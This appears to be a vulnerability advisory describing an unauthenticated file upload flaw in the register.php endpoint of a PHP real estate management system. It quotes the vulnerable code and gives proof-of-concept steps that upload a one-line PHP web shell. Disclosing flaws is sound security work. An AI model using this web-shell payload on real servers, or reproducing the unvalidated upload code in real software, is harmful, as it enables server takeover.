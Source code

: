 ## Vulnerability Details:
- **Application Name**: Codeastro Real Estate Management System 
- **Software Link**: [Download Link](https://codeastro.com)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/anirbandutta9/NEWS-BUZZ)
- **BuG**: Arbitrary Unauthenticated File Upload Leading to Remote Code Execution (RCE)
- **BUG_Author**: egsec

## About project:
In particular, this Real Estate Management System Project in PHP focuses mainly on publishing and viewing properties. To be more precise, the system helps to keep a number of sales and rental properties.

## Vulnerability Description:
- An arbitrary unauthenticated file upload vulnerability was discovered in the `/register.php` endpoint of the application. This endpoint allows users to upload profile pictures as part of the registration process, but lacks proper file validation and authentication checks. Attackers can exploit this flaw by uploading a malicious file (e.g., a PHP reverse shell) as the user picture, which the server subsequently processes. This ultimately allows attackers to execute arbitrary code on the server, leading to remote code execution (RCE).

## Vulnerable Code Section:
```php
<?php
...
$aimage=$_FILES['aimage']['name'];
$temp_name1 = $_FILES['aimage']['tmp_name'];
move_uploaded_file($temp_name1,"upload/$aimage");
...
?>
```
- Lack of File Type Validation: The code does not verify that the uploaded file is an actual image (e.g., by checking its MIME type or extension). This allows an attacker to upload files with executable code (such as a PHP reverse shell).

- Direct Use of File Name: The variable $aimage uses the original file name provided by the user, which is then directly moved into the upload/ directory. An attacker could upload a file like shell.php, which would then be accessible via the web server as /upload/shell.php, enabling them to execute code.

## Proof of Concept (PoC):
- create malicious file like shell.php
- write in the file this payload in order to execute the commands: `<?php system($_GET['cmd']);?>`
- go to the user register location => `http://localhost/RealEstate-PHP/register.php`
  
  ![image](https://github.com/user-attachments/assets/67569737-996d-4fdc-a4e4-846e74b3b6c6)

- upload the malicious file (shell.php) 
